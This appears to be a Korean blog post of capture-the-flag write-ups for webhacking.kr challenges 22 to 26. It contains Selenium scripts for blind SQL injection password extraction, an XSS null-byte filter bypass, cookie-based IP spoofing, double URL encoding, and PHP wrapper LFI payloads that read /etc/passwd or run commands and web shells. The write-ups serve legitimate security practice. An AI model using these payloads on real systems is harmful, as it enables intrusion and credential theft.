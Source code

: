 ```yaml
---
title: "Security: webhacking.kr 22-26"
last_modified_at: 2020-07-26T20:20:02-05:00
categories:
  - webhacking.kr
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 22 문제풀이 (Blind SQL Injection, MD5)
---

22번 문제에 들어와보니 로그인 화면이 나타났다 SQL Injection 으로 풀수있을 것 같다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

id와 pw에 test를 입력하고 join을 해봤다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그리고 나서 로그인 해보니 패스워드 해쉬 값이 나왔다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선은 아래에 id가 admin이라는 힌트가 나와으므로 admin' and 1#를 입력하여 pw를 true 로 만들어 보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그랬더니 Wrong password! 라는 메세지가 나타났다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 admin과 아무 비밀번호를 입력해보니 Login Fail! 이라는 메세지를 볼 수 있었다. SQL Blind Injection에 이용하면 될 것 같다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선 html 소스코드를 열어 필드명들을 확인하고 이를 기반으로 소스코드를 작성하였다.
{: .notice}

```php
<html>
<head>
<title>Challenge 22</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
table { background:black; color:white; font-size:9pt; }
input { background:silver; color:black; font-size:9pt; }
a { color:lightgreen; }
</style>
</head>
<body>

<form method=post action=index.php>
<table border=1 cellpadding=5 cellspacing=0>
<tr><td>username</td><td><input name=uuid type=text></td></tr>
<tr><td>password</td><td><input name=pw type=password></td></tr>
<tr align=center><td><input type=submit value='login'></td><td><input type=button value='join' onclick=location.href='?mode=join' style=width:100;></td></tr>
</form>

<p>

</table><br><br>
<p style=background:white;color:black;width:400;>
mission : login as admin<br>
Column Name : id, pw
</p>

</body>
</html>
```

true 이면 Wrong password, false면 Login Fail 이 나타나므로 이를 이용하여 pw 길이부터 구했다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

#연결

url = "https://webhacking.kr/challenge/bonus-2/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'6i88jov341jics4n6c342ho6fq'}
driver.add_cookie(cookie)
driver.get(url)

for n in range(1,50):
    driver.get(url)
    print(n)
    #id 입력
    name = driver.find_element_by_name('uuid')
    name.send_keys("admin' and length(pw)={}#".format(n))
    #pw 입력
    pw = driver.find_element_by_name('pw')
    pw.send_keys("1")

    submitButton = driver.find_element_by_xpath("/html/body/form/table/tbody/tr[3]/td[1]/input")
    submitButton.click()
    if ("Login Fail!" in driver.find_element_by_xpath("/html/body").text):
        print("found!")
        continue
    else: break
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>

pw의 길이는 32로 나왔고 본격적으로 pw를 구해보았다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

#연결

url = "https://webhacking.kr/challenge/bonus-2/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'6i88jov341jics4n6c342ho6fq'}
driver.add_cookie(cookie)
driver.get(url)

p_string = ""
for i in range(1,33):
    driver.get(url)
    print(i)
    for j in range(33,128):
        name = driver.find_element_by_name('uuid')
        name.send_keys("admin' and ord(substr(pw,{},1))={}#".format(i,j))       
        pw = driver.find_element_by_name('pw')
        pw.send_keys("1")     
        submitButton = driver.find_element_by_xpath("/html/body/form/table/tbody/tr[3]/td[1]/input")
        submitButton.click()
        if ("Login Fail!" in driver.find_element_by_xpath("/html/body").text):
            print("{},{}".format(i,j))
        else:
            p_string+=chr(j)
            print(p_string)
            driver.get(url)
print(p_string)
```

패스워드는 md5 값으로 보인다. decryption을 시도해보았다.
{: .notice}

```
6c9ca386a903921d7fa230ffa0ffc153
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-8.JPG" alt="">
  <figcaption> </figcaption>
</figure>

wowapple 이라니? 답이 이게 맞는걸까? 로그인을 시도해보니 실패했다! 아까 test 계정에서 얻었던 hash 값을 살펴보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-9.JPG" alt="">
  <figcaption> </figcaption>
</figure>

test 계정의 패스워드는 test로 생성했었는데 testapple의 해쉬값이 나타난것을 보아하니 salt 값으로 apple이 붙는듯 하다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-10.JPG" alt="">
  <figcaption> </figcaption>
</figure>

따라서 admin의 pw는 apple을 뺀 wow 이다. 이 정보로 로그인을 했더니 성공했다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-11.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-12.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 23 문제풀이 (script injection)
---

23번 문제는 다음과 같다 아래에 나타난 스크립트 문장을 삽입하면 되는듯 하다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

하지만 실제 삽입해보니 필터링 되어 몇가지 키워드는 입력이 되지 않았다. <script>, True, False, or, and, select, from 등등
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

임의의 값을 넣을 경우 code= 과 함께 전송된다
{: .notice}

```
https://webhacking.kr/challenge/bonus-3/index.php?code=123
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<html>
<head>
<title>Challenge 23</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
123<form method=get action=index.php>
<table border=0 cellpadding=10>
<tr><td><input name=code></td><td><input type=submit></td></tr>
</table>
</form><br><br>
Your mission is to inject &lt;script>alert(1);&lt;/script>
<br><br>
</body>
</html>
```

alert(1);을 속여서 넣는 방법밖에 없는것같다. 우선 null을 뜻하는 %00을 넣어서 필터를 피해보자.
{: .notice}

```
<s%00c%00r%00i%00p%00t>%00a%00l%00e%00r%00t%00(1)%00;%00</s%00c%00r%00i%00p%00t>
```

%00값을 너무 많이 끼워 넣으면 명령어로 인식을 하지 못해서 적당히 빼면서 url에 입력한 결과 
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 24 문제풀이 (쿠키 변조)
---

24번 문제를 들어와보니 http 패킷 정보 중 일부가 나타났다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 24</title>
</head>
<body>
<p>
<?php
  extract($_SERVER);
  extract($_COOKIE);
  $ip = $REMOTE_ADDR;
  $agent = $HTTP_USER_AGENT;
  if($REMOTE_ADDR){
    $ip = htmlspecialchars($REMOTE_ADDR);
    $ip = str_replace("..",".",$ip);
    $ip = str_replace("12","",$ip);
    $ip = str_replace("7.","",$ip);
    $ip = str_replace("0.","",$ip);
  }
  if($HTTP_USER_AGENT){
    $agent=htmlspecialchars($HTTP_USER_AGENT);
  }
  echo "<table border=1><tr><td>client ip</td><td>{$ip}</td></tr><tr><td>agent</td><td>{$agent}</td></tr></table>";
  if($ip=="127.0.0.1"){
    solve(24);
    exit();
  }
  else{
    echo "<hr><center>Wrong IP!</center>";
  }
?><hr>
<a href=?view_source=1>view-source</a>
</body>
</html>
```

위에 코드를 해석해보니 $_SERVER와 $_COOKIE  값을 extract() 함수를 사용하여 뽑아낸다. 그리고 ip에 저장하는데 REMOTE_ADDR의 일부를 바꿔서 저장한다.
..은 .으로 12, 7.,0.은 null 값으로 바꾸도록 되어있다. 이 부분을 피해서 127.0.0.1을 입력해야 문제가 해결될듯 하다.
{: .notice}

간단하다 REMOTE_ADDR 쿠키를 추가하고 값으로 112277...00...00...1을 넘기면 최종적으로 127.0.0.1만 남는다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 25 문제풀이 (PHP Wrapper)
---

---
#### PHP Wrapper, LFI
---

wrapper를 이용하여 몇가지 프로토콜이 지원된다. PHP의 경우 입출력 , 표준입출력 , 오류 파일 기술어 등에 엑세스 할수 있는 다양한 I/O 스트림을 제공한다.
{: .notice}

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
```

LFI(Local File Inclusion)은 공격(포함)할 파일이 공격대상 서버에 있다는 뜻이다. lfi 취약점은 php로 만들어진 웹 사이트에서 include, require, require_once, file_get_contents, fopen 등 의 함수를 사용했을 때 발생한다.
예로, include()함수는 받아온 입력값을 그대로 경로에 추가하기 때문에 var/www/html/index.php나 etc/passwd에 접근할 수 있다.
{: .notice}

```
1. expect://
expect wrapper는 우리에게 system command를 실행시켜 줍니다.
예를 들어,
expect wrapper 가 필터링 당하지 않았다면 
www.[우리가 공격할 웹 사이트의 주소].index.php?page=expect://ls
와 같은 방식으로 활용할 수 있습니다.
위의 예시에서는 system command로 ls를 보냈기 때문에 우리에게 디렉토리들을 보여줄 것입니다.

2. php://filter
php://filer wrapper는 다양한 I/O스트림을 다루는데 사용하는 wrapper입니다.
이 wrapper를 사용할 때 우리는 encode/decode 옵션을 사용하여 서버 안에 존재하는 문서들을 열람 할 수 있습니다.
예를 들어, 
www.[우리가 공격할 웹 사이트의 주소].index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
처럼 활용할 수 있습니다.
위의 방식으로 공격을 진행하게 되면 우리는 base64 방식으로 인코딩 된 etc/passwd의 값을 얻을 수 있을 것 입니다.

3. zip://
zip:// wrapper는 zip파일의 압축을 풀고 압축을 푼 파일안에 있는 코드를 실행시켜 주는 기능을 합니다.
예를 들어, 
www.[우리가 공격할 웹 사이트의 주소].index.php?page=zip://file.zip#shell.php
와 같은 방식으로 활용하여 web shell을 실행시키는 등 다양한 기능을 수행할 수 있습니다.
```
출처: https://opentutorials.org/module/4291/26819
{: .notice}

---
#### 문제풀이
---
25번 문제에 들어가보니 리눅스에서 보던 화면이 보인다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<html>
<head>
<meta http-equiv=Content-Type content="text/html; charset=euc-kr">
<title>Challenge 25</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
textarea { background:silver; color:black; fnot-size:9pt; }
</style>
</head>
<body>
<pre>total 20
drwxr-xr-x 2 root root 4096 Aug 24  2019 .
drwxr-xr-x 3 root root 4096 Aug 24  2019 ..
-rw-r--r-- 1 root root   82 Aug 24  2019 flag.php
-rw-r--r-- 1 root root   31 Aug 24  2019 hello.php
-rw-r--r-- 1 root root  605 Aug 24  2019 index.php
</pre><hr><textarea rows=10 cols=100>hello world</textarea></body>
</html>
```
소스코드에 특별한 점은 없다. url을 살펴보면 http://webhacking.kr:10001/?file=hello 라고 입력되어있다. 
확장자명 없이 파일이름만 입력해야 파일에 접근 할 수 있었다. 그래서 각각의 파일명을 입력해보니
 flag 입력시 'FLAG is in the code' 라는 문자열을 볼 수 있다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>


?file=php://filter/convert.base64-encode/resource=flag 를 사용하여 더 자세히 살펴보자
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```

이전 문제에서도 봤던 형식이다 Base64 decode를 해보자
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
<?php
  echo "FLAG is in the code";
  $flag = "FLAG{this_is_your_first_flag}";
?>
```

flag 값을 얻었다. 얻은 flag 값을 어떻게 해야할지 모르겠어서 결국 헤메다 찾아보았다. Auth 탭에 입력하였고 문제가 풀렸다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 26 문제풀이 (URL encode)
---

26번 문제를 살펴보았다. 화면에는 view-source 만 보인다. 클릭하여 코드를 살펴보자.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 26</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }    
a { color:lightgreen; }
</style>
</head>
<body>
<?php
  if(preg_match("/admin/",$_GET['id'])) { echo"no!"; exit(); }
  $_GET['id'] = urldecode($_GET['id']);
  if($_GET['id'] == "admin"){
    solve(26);
  }
?>
<br><br>
<a href=?view_source=1>view-source</a>
</body>
</html>
```

소스코드를 살펴보니 id 값을 받는다. admin을 입력하면 문제가 풀린다. 
하지만 그전에 정규표현식을 통해서 admin을 입력할 경우 no!를 출력하고 종료하도록 하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선 urldecode를 하는것을 보아하니 encode한 값을 넣어주면 될것같다.
admin을 encode 하여 %61%64%6D%69%6E로 바꾸어서 입력해보았다. no!라고 나타나는것을 보니 admin으로 다시 변환되는 모양이다.
그래서 %61%64%6D%69%6E 을 한번더 인코딩 하여 입력해보았다. %2561%2564%256D%2569%256E
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

문제 해결!
{: .notice}













